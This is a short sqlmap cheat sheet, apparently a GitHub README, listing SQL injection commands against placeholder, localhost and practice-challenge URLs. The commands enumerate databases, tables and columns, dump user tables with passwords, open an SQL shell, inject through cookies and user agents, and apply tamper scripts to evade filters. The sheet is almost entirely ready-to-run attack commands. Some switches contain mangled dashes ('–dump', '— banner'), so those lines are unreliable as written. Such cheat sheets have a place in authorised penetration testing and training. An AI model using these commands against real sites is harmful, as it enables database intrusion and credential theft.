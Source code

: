 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper — banner</pre>

# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**